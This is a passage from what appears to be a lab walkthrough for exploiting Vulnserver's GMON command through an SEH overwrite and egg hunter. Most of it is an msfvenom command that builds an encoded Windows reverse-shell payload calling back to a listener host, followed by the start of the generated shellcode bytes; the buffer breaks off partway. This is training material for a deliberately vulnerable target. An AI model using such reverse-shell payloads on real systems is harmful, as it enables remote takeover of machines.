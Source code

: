 <img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-egg-drift.png">
</div>

So we can control SEH and drift back in memory and reach our egg hunter too

## Crafting the shellcode

Lets generate the shellcode for our reverse shell using ```msfvenom```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.116.128 LPORT=9876 -f python -e x86/shikata_ga_nai -b "\x00"
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xb8\xbb\xf1\x65\xd4\xdd\xc1\xd9\x74\x24\xf4\x5e\x31"
buf += b"\xc9\xb1\x52\x31\x46\x12\x03\x46\x12\x83\x55\x0d\x87"
buf += b"\x21\x55\x06\xca\xca\xa5\xd7\xab\x43\x40\xe6\xeb\x30"
buf += b"\x01\x59\xdc\x33\x47\x56\x97\x16\x73\xed\xd5\xbe\x74"
buf += b"\x46\x53\x99\xbb\x57\xc8\xd9\xda\xdb\x13\x0e\x3c\xe5"
buf += b"\xdb\x43\x3d\x22\x01\xa9\x6f\xfb\x4d\x1c\x9f\x88\x18"
buf += b"\x9d\x14\xc2\x8d\xa5\xc9\x93\xac\x84\x5c\xaf\xf6\x06"
buf += b"\x5f\x7c\x83\x0e\x47\x61\xae\xd9\xfc\x51\x44\xd8\xd4"
buf += b"\xab\xa5\x77\x19\x04\x54\x89\x5e\xa3\x87\xfc\x96\xd7"
```
